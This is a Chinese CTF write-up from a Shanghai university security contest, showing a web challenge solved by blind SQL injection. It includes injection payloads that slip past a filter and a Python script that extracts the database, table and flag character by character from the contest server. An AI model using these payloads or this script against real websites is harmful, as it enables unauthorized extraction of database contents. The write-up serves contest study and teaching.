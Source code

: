 > 原文链接: https://www.anquanke.com//post/id/87206 


# 【CTF 攻略】第三届上海市大学生网络安全大赛Writeup


                                阅读量   
                                **467452**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t01ea4fe3a37fd84254.png)](https://p0.ssl.qhimg.com/t01ea4fe3a37fd84254.png)

作者：[BOI_Team](http://bobao.360.cn/member/contribute?uid=184681293)

预估稿费：300RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**

本文是第三届上海市大学生网络安全大赛CTF攻略。

**<br>**

**1.Some Words    类型：WEB    分值：100分**

这题很明显的Sql盲注，通过测试发现过滤了“=”和and，所以构造查库Payload如下：

```
id=0 or if((ascii(substr((select database()),0,1))&gt;116),1,0)
```

得到库名为words，构造查表语句如下：

```
id=0 or if((ascii(substr((select table_name from information_schema.tables where table_schema &lt; 0x776f726474 limit 82,1),17,1))&lt;97),1,0)
```

得到表名为f14g。接下来直接查字段脚本及结果如下：



```
#coding=UTF-8
import requests
result = ''
url = 'http://a3edf37f0d9741c6ad151c8bafbcad60fc11a19cf7f747a9.game.ichunqiu.com/index.php?'
payload = 'id=0 or if((ascii(substr((`{`sql`}`),`{`list`}`,1))&lt;`{`num`}`),1,0)'
for i in xrange(0,50):
    for j in xrange(32,126):
        #hh = payload.format(sql='select database()',list=str(i),num=str(j))
        #hh = payload.format(sql='select count(*) from information_schema.tables',list=str(i),num=str(j))
        #hh = payload.format(sql='select table_name from information_schema.tables limit 81,1',list=str(i),num=str(j))
        hh = payload.format(sql='select * from words.f14g',list=str(i),num=str(j))
        #print hh
        zz = requests.get(url+hh)
        #print zz.content
        if 'Hello Hacker!!' in zz.content:
            result += chr(j-1)
            print result
            break
```